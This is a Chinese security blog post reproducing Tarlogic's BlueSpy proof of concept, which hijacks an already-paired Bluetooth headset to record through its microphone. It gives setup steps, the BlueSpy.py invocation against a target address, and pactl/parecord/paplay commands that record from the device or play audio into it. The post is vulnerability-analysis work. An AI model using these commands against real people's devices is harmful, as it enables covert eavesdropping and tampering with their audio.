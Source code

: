 ```yaml
---
title: 监听蓝牙对话的BlueSpy技术复现
slug: bluespy-bluetooth-eavesdropping-technical-reproduction
author: 马云卓
date: 2024-06-28 20:02
categories: 漏洞分析
tags:
  - BlueSpy
  - 蓝牙安全
  - 无线安全
  - 隐私安全
---
```


2个月前，网络安全和情报公司Tarlogic在西班牙安全大会RootedCon 2024上提出了一项利用蓝牙漏洞的BlueSpy技术，并在之后发布了一个名为BlueSpy的概念验证工具。

这个蓝牙安全漏洞能够允许攻击者在蓝牙扬声器（比如耳机）已经与另一个设备配对并连接的情况下，劫持或监听蓝牙扬声器的输出内容，这也意味着，如果攻击目标是蓝牙耳机，那么可以通过这个漏洞进行目标用户蓝牙耳机通话的劫持，即偷听目标对象的通话内容。

同时Tarlogic也发布了BlueSpy 的PoC项目https://github.com/TarlogicSecurity/BlueSpy ，该项目可以验证此漏洞的概念。

## 环境准备

Python 3.11.8

PoC 使用以下工具：

* bluetoothctl

* btmgmt

* pactl

* parecord

* paplay

测试设备使用Kali虚拟机+蓝牙适配器或者原生Kali系统均可复现。其中，使用虚拟机时需要注意关闭USB控制器的与虚拟机共享蓝牙设备，这个蓝牙设备虽然会显示在蓝牙适配器列表，但是并不能使用，直接使用连接到虚拟机的外置蓝牙适配器即可。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401929410.1936338698993305.png)

## 测试准备

在BlueSpy脚本执行时非常容易出现错误，比如：

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401930130.673819626465318.png)

这时可以使用sudo btmgmt pair -c 3 -t 0命令直接运行btmgmt进行测试，并根据给出的提示解决报错。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401930870.29612336593072075.png)

确保btmgmt可以正常运行之后，再通过hciconfig命令来检查蓝牙适配器的信息。

hciconfig命令可以查看蓝牙适配器信息，和ifconfig命令可以查看网络适配器一样，遇到适配器DOWN的状态，可以使用hciconfig hci0 up来启动。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401931550.6749946230516854.png)

另外，sudo systemctl start bluetooth命令用于启动蓝牙服务。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401932270.991613638981737.png)

sudo rfkill list命令可以用来检查蓝牙设备是否禁用。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401932990.38614859608898966.png)

如果蓝牙已被禁用，可以使用以下命令解除禁用：sudo rfkill unblock bluetooth

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401933700.42825960490678605.png)

## 测试场景

确保btmgmt可以正常运行后，通过bluetoothctl工具扫描周边的蓝牙设备，在工具启动后执行scan on命令来开启扫描，获取蓝牙的地址，这里以网易的云音乐蓝牙耳机为例。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401934410.21181419177760807.png)

倘若此时周边有其他人已经连接该蓝牙耳机听音乐（这里以耳机连接Windows系统为例）。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401935140.941475947677894.png)

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401935880.6167705482096877.png)

## 测试执行

回到Kali系统开始执行BlueSpy程序，示例如下：

``` Python
$ python BlueSpy.py -a 蓝牙地址（上文示例为F5:0E:FD:00:01:B8）
```

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401936610.10667389243998104.png)

上图可以看到Kali系统已经连接到正在播放的云音乐蓝牙耳机，并且开启了麦克风开始录音。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401937350.24226495282896443.png)

这时在项目目录下会有一个recording.wav的文件生成，这个文件正是录音的文件，随着录音时间的增加，该文件的大小也会增加。

![](./bluespy-bluetooth-eavesdropping-technical-reproduction/assets/17617401938040.5933515665494178.png)

使用Ctrl+C停止录音后，可以选择是否向连接的蓝牙设备播放媒体文件。选择Y的话会播放刚刚录音的文件，不选择的话，设备会恢复之前的状态继续播放音乐。

这里也可以用单独的命令进行相同操作：

``` Bash
pactl set-card-profile bluez_card.04_FE_A1_40_EB_31 headset-head-unit-msbc 
parecord -d bluez_input.04_FE_A1_40_EB_31.0 recording.wav 
paplay -d bluez_output.04_FE_A1_40_EB_31.1 recording.wav
```

使用上述命令可以单独进行录音或者发送指定的音频到目标蓝牙设备播放音乐，假设播放的音乐是空白，则会产生蓝牙耳机或音箱无声的假象。